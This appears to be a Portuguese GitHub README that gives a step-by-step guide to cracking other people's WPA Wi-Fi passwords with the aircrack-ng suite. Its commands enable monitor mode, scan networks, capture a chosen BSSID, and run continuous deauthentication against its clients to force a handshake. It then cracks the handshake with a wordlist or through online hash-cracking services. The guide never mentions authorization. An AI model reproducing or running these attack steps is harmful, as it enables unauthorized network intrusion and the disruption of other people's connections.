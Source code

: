 # Wifi Hacking Passwords

Vamos utilizar uma metodologia de aprendizado.

Pré requisitos:
 - SO Ubuntu 22.04
 - Placa Wifi
 - Instalação dos pacotes abaixo:
```shell
apt update;apt install -y airgraph-ng aircrack-ng
```
Start check nas interface:
```shell
airmon-ng check kill && airmon-ng start wlp3s0
```
![fotowifi](https://i.postimg.cc/cJV78w8s/image.png)

Scanner do SSID Disponiveis:
```shell
airodump-ng wlp3s0
```
![fotoexpamle](https://i.postimg.cc/brqtQTYj/image.png)

Agora scanneado pega um SSID de sua escolha e visualize o canal exemplo 9.
 - Exemplo BSSID: C4:0D:96:E7:09:44
 - Canal: 9
 - verificando o Fabricante se necessário: `grep C40D96 /usr/share/ieee-data/oui.txt`
 - ![fabricanteplaca](https://i.postimg.cc/JhwtNqKd/image.png)
```shell
airodump-ng -c 9 --bssid C4:0D:96:E7:09:44 -w kelseysantos wlp3s0
```
![escanner](https://i.postimg.cc/vHcmCjNN/image.png)

Utilizando agora o Aireplay para injetar drow nos clientes:
```shell
aireplay-ng -a C4:0D:96:E7:09:44 --deauth 0 wlp3s0
```
Ele vai criar arquivos dentro da pasta um desses arquivos é o kelseysantos-01.cap onde você irá verificar se tem **handshake**, com o comando **aircrack-ng**.
```shell
aircrack-ng kelseysantos-01.cap
```
![handshake](https://i.postimg.cc/XqZ0DMYK/image.png)

Pronto agora é só utilizar um site para gerar um arquivo h22000 como o [HASHCAT](https://hashcat.net/cap2hashcat/).
 - Converta seu arquivo [kelseysantos-01.cap](https://i.postimg.cc/jjZ0xqWQ/image.png) no site, faça o upload do arquivo e clique em **convert** ele vai retornar um arquivo com extensão **.hc22000**, exemplo do arquivo: **1356859_1733616685.hc22000**.
 - Agora entre no site [www.onlinehashcrack.com](https://bit.ly/4fY5C8K) e faça o seu cadastro para upar o seu arquivo hc22000 e aguardar o resultado de uma senha.

Outra forma é utilizar um banco de palavras chamado **worldlist** ou **worldpass**, juntamente com o **aircrack-ng**, no comando abaixo:
```shell
aircrack-ng kelseysantos-01.cap -w worldlist.txt
```

Obrigado.

# Kelsey Santos

![card](https://github-readme-stats.vercel.app/api?username=kelseysantos&theme=default&show_icons=true)

![kelseysantos](https://github-readme-stats.vercel.app/api/top-langs/?username=kelseysantos&hide=html&layout=compact&theme=highcontrast)
